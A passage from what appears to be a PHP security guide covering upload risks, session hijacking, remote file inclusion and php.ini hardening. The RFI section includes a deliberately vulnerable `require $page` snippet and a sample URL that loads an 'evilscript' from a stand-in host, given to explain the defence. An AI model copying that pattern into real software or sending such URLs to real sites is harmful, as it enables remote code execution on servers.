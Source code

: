 ## Uploading files

Many security breaches occur when users can upload files onto a server. Make
sure you go through all the vulnerabilities associated with uploading files and
take appropriate precautions against these vulnerabilities, such as by renaming
uploaded files, moving them to publicly inaccessible folders, checking the
types of files uploaded and so on. Since there are many issues to check here,
more information is also located in the separate FAQ:

* [How to securely upload files with PHP?](/security/uploading.md) FAQ.

## Session hijacking

Session hijacking is an attack where an attacker steals the session ID of a
user. The session ID is sent to the server where the associated `$_SESSION`
array is populated. Session hijacking is possible through an XSS attack or when
someone gains access to the folder on a server where the session data is
stored.

## Remote file inclusion

An RFI (remote file inclusion) attack is when an attacker can include custom
scripts:

```php
$page = $_GET['page'] ?? 'home'

require $page . '.php';
```

In the above code, `$_GET` can be set to a remote file `http://yourdomain.tld/index.php?page=http://example.com/evilscript`

Make sure you disable this in your `php.ini` unless you know what you're doing:

```ini
; Disable including remote files
allow_url_fopen = off
; Disable opening remote files for include(), require() and include_once() functions.
; If above allow_url_fopen is disabled, allow_url_include is also disabled.
allow_url_include = off
```

## PHP configuration

Always keep the installed PHP version updated. You can use
[versionscan](https://github.com/psecio/versionscan) to check for possible
vulnerabilities of your PHP version. Update open source libraries and
applications, and keep your web server well maintained.

Here are some of the important settings from `php.ini` that you should check out.
You can also use [iniscan](https://github.com/psecio/iniscan) to scan your
`php.ini` files for best security practices.
